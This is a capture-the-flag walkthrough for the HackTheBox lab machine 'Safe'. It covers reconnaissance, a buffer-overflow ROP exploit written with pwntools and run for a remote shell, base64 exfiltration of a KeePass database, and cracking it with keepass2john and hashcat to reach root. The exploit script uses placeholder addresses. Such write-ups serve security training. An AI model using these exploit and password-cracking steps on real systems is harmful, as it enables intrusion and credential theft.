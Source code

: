 # HTB: Safe Walkthrough

## Recon

### Nmap Scan
Identified open ports:
- **TCP 80** (HTTP)
- **TCP 1337** (discovered via source code comment)

Performed additional scans:
```bash
nmap -sC -sV -p- 10.10.10.147
```

### Nikto Scan
Revealed default Apache page and /manual directory. A comment in the source code hinted at port 1337 and a downloadable binary (`myapp`).

## Binary Analysis (Buffer Overflow)

### Initial Test
Ran `myapp`, asked user input. Created a basic overflow with Python:
```python
print("A" * 200)
```
Submitted 200 A's and caused a crash.

### Using GDB (with peda)
- Ran `checksec`:
  - NX enabled
  - RELRO Partial
- Set follow mode: `set follow-fork-mode parent`
- Ran program with cyclic pattern from pwntools:
```python
from pwn import *
cyclic(200, n=8)
```

Used `x/xg $rsp` to get the address and determine the offset with:
```bash
pattern offset -q <value from RSP>
```
Offset identified: **120**

### Using Radare2
```bash
r2 -d myapp
[0x00000000]> aaa
[0x00000000]> afl
```
Revealed functions:
- `main` uses `/usr/bin/uptime` with a `system()` call
- `test` function contains a usable `pop r13; ret` gadget

### Using ROPgadget
Found:
- `pop r13; pop r14; pop r15; ret`

## ROP Chain Construction
- Place `/bin/sh` into memory
- Set r13 to `system@plt`
- Use gadget to pop r13, r14, r15 with dummy values
- Jump to `test()`

## Exploit Script
Local exploit with pwntools:
```python
from pwn import *
context.binary = './myapp'
p = process('./myapp')

offset = 120
pop_r13_r14_r15 = p64(0xdeadbeef)
system = p64(0xdeadbeef)
binsh = b"/bin/sh\x00"

payload = b"A" * offset
payload += pop_r13_r14_r15
payload += system
payload += p64(0x0) * 2
payload += p64(address_of_test)

p.sendlineafter("echo back?", payload)
p.interactive()
```

## Remote Exploitation
Modified above to use remote connection:
```python
p = remote('10.10.10.147', 1337)
```
Gained shell and accessed:
```bash
cat /home/user/user.txt
```

## Root Flag (KeePass)
### KeePass DB Found
- File: `MyPasswords.kdbx`
- Images: `IMG_0547.JPG`, etc.

### Exfiltration
- Base64 encoded files and copied to local machine
```bash
base64 MyPasswords.kdbx > kdbx.b64
```
- Decoded on attacker box
```bash
base64 -d kdbx.b64 > MyPasswords.kdbx
```

### SSH Key Auth Setup
- Generated RSA key pair
- Copied public key to `~/.ssh/authorized_keys`

### File Transfer
```bash
scp -i id_rsa user@10.10.10.147:IMG_0547.JPG .
```

### KeePass2John
Generated hash:
```bash
keepass2john MyPasswords.kdbx IMG_0547.JPG > hash.txt
```

### Cracking
```bash
hashcat -a 0 -m 13400 hash.txt rockyou.txt
```
Found password: `somepass123`

### Unlock DB
Used KeePassXC:
- Password: `somepass123`
- Key file: `IMG_0547.JPG`
- Retrieved: **Root password**

### Root Access
```bash
ssh -i id_rsa user@10.10.10.147
su root
```
Used KeePass creds for `root`, accessed:
```bash
cat /root/root.txt
```

## Flags
- **User:** `xxxx...`
- **Root:** `xxxx...`

## Resources
- [ROP Emporium](https://ropemporium.com/)
- [Pwntools Docs](http://docs.pwntools.com/en/stable/)
- [Keepass2John Guide](https://rubydevices.com.au/blog/how-to-hack-keepass)